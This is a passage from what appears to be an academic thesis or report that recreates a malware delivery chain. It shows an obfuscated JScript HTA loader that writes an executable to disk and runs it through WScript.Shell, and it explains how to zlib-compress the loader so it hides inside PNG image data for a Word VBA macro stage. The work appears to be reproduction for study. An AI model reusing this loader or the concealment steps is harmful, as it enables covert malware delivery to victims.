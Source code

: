 \begin{lstlisting}[language=JavaScript, caption={Obfuscated payload loader.}][H]
  e = b[_0x556975(0x1e4)](d, !![]), //call Scripting.FileSystemObject.CreateTextFile(path, true)
    e[_0x556975(0x1ec)]('MZ'), // call Scripting.FileSystemObject.Write('MZ') on the created file
    e['Close'](); // close the file
  var data = [144, 3, 0, 4, 0, 65535, 0, 184], // replace with payload
      i, len;
  len = data['length'];
  var content = '';
  for (i = 0x0; i < len; i++) {
    content += String[_0x556975(0x1dc)](data[i]); // content += String.fromCharCode(data[i])
  }
  e = b[_0x556975(0x1e3)](d, 0x8, ![], -0x1), // call Scripting.FileSystemObject.OpenTextFile(path, 8, false, -1)
    e[_0x556975(0x1ec)](content), // call Scripting.FileSystemObject.Write(content) on the opened file
    e[_0x556975(0x1eb)](); // close the file
  var c = new ActiveXObject('WScript.Shell');
  c['Run'](d, 0x0); // run the payload
  
} catch (_0x1f5265) {}
window[_0x556975(0x1e7)](); // window.close()
\end{lstlisting}

\subsection{Compressing the Payload Loader}
Since the payload loader is the final payload that needs to be attached to the image, we need to adequately prepare it
for this task. In practice, this means compressing it in the same way the \acrshort{PNG} data is stored and masking it
as part of the image. 

To compress the data the same way as the \acrshort{PNG} data stream, we need to achieve the following compression
signature using the \verb+binwalk+ utility: \verb+Zlib compressed data, default compression+. Standard compression tools
we used often append additional headers that we don't want and we found the easiest and most straightforward utility to
use to simply compress data using default Zlib compression to be \verb+zlib-flate+, which is part of the \verb+qpdf+
package on Linux systems. This can be applied to the \acrshort{HTA} payload using the following command: 
\verb+zlib-flate -compress < payload.hta > compressed_payload.zip+.

The payload is now ready to be embedded within the \acrshort{PNG} image using the payload creation utilities described
in section \ref{sec:impl-utilities}.


\section{Microsoft Word Document - \acrshort{VBA} Payload} \label{sec:impl-macro}
Recreating the final Microsoft Word Document made all the other parts come together. Even though the main structure of
the document macro payload was outlined in the article, some notable functions were not shown, such as the Base 64
decoding function and, most importantly, the payload extracting \verb+WIA_ConvertImage+ function.

